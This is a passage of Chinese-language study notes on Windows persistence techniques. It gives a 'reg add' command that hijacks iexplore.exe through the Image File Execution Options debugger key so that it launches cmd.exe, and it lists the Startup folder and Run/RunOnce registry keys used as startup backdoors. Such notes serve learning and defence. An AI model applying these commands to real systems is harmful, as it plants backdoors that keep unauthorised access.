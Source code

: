 或者直接命令行(需要管理员权限)：

`reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f`

![image-20220308172741639](Windows权限维持学习/image-20220308172741639.png)

# 0x2.启动项/服务后门

## 开始菜单启动项

开始菜单启动项，指示启动文件夹的位置，具体的位置是“开始”菜单中的“所有程序”-“启动”选项：

```
C:\Users\SD\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

相关键值：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

重启后会自动自启

## 启动项注册表后门

`HKEY_CURRENT_USER`的改动不需要管理员权限。（更改`HKEY_LOCAL_MACHINE`需要管理员权限）

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
